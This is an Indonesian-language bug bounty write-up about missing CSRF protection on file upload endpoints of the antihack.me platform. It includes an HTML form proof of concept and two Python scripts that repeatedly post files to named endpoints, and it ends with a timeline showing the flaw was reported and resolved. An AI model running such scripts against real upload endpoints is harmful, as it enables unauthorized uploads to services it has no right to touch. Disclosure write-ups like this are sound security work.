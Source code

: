 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF File Upload Vulnerability"
date: 2019-01-09 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/logo.png?raw=true">
</div>


#### <b>CSFR On Profile Image File Upload</b>
Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan login ke aplikasi, kita dapat mengatur profile kita sebagai bug hunter, termasuk juga setting avatar/photo profile. Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/burp.png?raw=true">
</div>

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya siapapun dapat mengakses fitur upload ini, sekalipun dia tidak memepunyai akses ke akun manapun.

Lalu kami coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kami request dengan secript diatas dan didapatkan file berhasil diupload dengan baik. 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20html.png?raw=true">
</div>

Lalu kami coba buat script csrf dengan python:
```
#!/usr/bin/python3

import requests

headers = {
	'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
	"HOST":"AntiHACK"
}

for i in range(3):
	r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
	print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20python.png?raw=true">
</div>

#### <b>CSRF On Report And Comment File Upload</b>

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python:
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf2/2018-12-27_21-11.png?raw=true">
</div>

```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```